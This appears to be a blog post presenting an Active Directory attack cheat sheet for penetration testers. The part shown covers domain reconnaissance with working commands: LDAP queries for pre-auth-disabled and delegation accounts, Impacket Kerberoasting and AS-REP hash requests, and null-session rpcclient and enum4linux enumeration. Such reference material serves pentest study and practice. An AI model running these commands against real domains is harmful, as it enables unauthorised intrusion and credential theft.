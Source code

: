 ```yaml
---
layout: post
title: "🔥 Active Directory Attack Notes - Advanced Practical Reference"
date: 2025-06-28 09:34:53 +0000
categories: cybersecurity penetration-testing active-directory
tags: [activedirectory, pentesting, redteam, cybersecurity, hacking, kerberos, adcs, mimikatz, impacket, bloodhound]

---
```


## 🔥 Active Directory Attack Notes - Advanced Practical Reference

🎉 **Just completed the ultimate comprehensive Active Directory attack methodology guide!** This massive reference covers every attack vector, technique, and tool you need for advanced AD penetration testing and red team operations.

After extensive research, lab testing, and practical validation across HackTheBox, CRTP, CRTE, and CRTM environments, I've compiled this complete arsenal of 200+ commands, 50+ specialized tools, and cutting-edge attack chains for both Linux and Windows platforms.

---

## 🎯 Initial Access & Advanced Reconnaissance

### 🔍 Comprehensive Domain Enumeration

#### Linux Tools:

```bash
# LDAP Deep Enumeration
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" -s sub "(objectClass=*)" | grep -i "member\|admin\|service"
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" # DONT_REQUIRE_PREAUTH
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(userAccountControl:1.2.840.113556.1.4.803:=524288)" # TRUSTED_FOR_DELEGATION
ldapsearch -H ldap://DC_IP -x -b "DC=domain,DC=com" "(servicePrincipalName=*)" # All SPNs

# Impacket Advanced Recon
GetADUsers.py -dc-ip DC_IP domain.com/username:password -all
GetUserSPNs.py -dc-ip DC_IP domain.com/username:password -request-user TARGET_USER
GetNPUsers.py -dc-ip DC_IP domain.com/ -usersfile users.txt -format hashcat
lookupsid.py domain.com/username:password@DC_IP # Get domain SID
GetADComputers.py -dc-ip DC_IP domain.com/username:password

# Advanced enum4linux
enum4linux -a -M -l -d DC_IP
enum4linux -a -u "" -p "" DC_IP

# rpcclient Advanced
rpcclient -U "" -N DC_IP
> enumdomusers | grep -v "user:" | cut -d[ -f2 | cut -d] -f1 > users.txt
> enumdomgroups
> queryusergroups 0x1f4 # Admin RID
> querygroupmem 0x200 # Domain Admins
> enumprivs
> srvinfo

# DNS Enumeration
dig @DC_IP _ldap._tcp.domain.com SRV
dig @DC_IP _kerberos._tcp.domain.com SRV
```